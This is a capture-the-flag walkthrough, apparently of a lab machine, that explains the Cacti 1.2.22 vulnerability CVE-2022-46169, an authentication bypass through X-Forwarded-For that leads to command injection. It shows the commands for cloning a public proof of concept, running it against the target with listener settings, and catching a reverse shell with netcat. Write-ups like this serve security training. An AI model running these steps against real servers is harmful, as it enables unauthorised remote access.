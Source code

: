 Homepage:

![](home.png){: .normal width="65%"}

We have the app's version: `Cacti 1.2.22`, so before doing anything else let's search for known vulnerabilities:

![](cacti_cve.png){: .normal width="60%"}

We have 4/4 references for the same RCE vulnerability: [CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169)! 

**Vulnerability**:
	The exploit consists of accessing the vulnerable `/remote_agent.php` endpoint, whose authentication can be bypassed due to a weak implementation of the `get_client_addr` function that uses a user-controlled header, namely `X-Forwarded-For` , to authenticate the client. Once that initial check is bypassed, we then trigger the `poll_for_data` function via the `polldata` action, which is vulnerable to command injection via the `$poller_id` parameter that is passed to `proc_open` , a PHP function that executes system commands.

Let's try this [PoC](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22):

```bash
# setting up a listener
$ nc -lvnp 1337
listening on [any] 1337 ...
```

```bash
# clone the git repo
$ sudo git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
Cloning into 'CVE-2022-46169-CACTI-1.2.22'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 18 (delta 4), reused 4 (delta 1), pack-reused 0
Receiving objects: 100% (18/18), 5.07 KiB | 2.53 MiB/s, done.
Resolving deltas: 100% (4/4), done.

$ cd CVE-2022-46169-CACTI-1.2.22/

$ python3 CVE-2022-46169.py -u http://10.10.11.211/ --LHOST=10.10.14.33 --LPORT=1337
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

```bash
# catching the reverse shell
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.11.211] 39056
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$
```
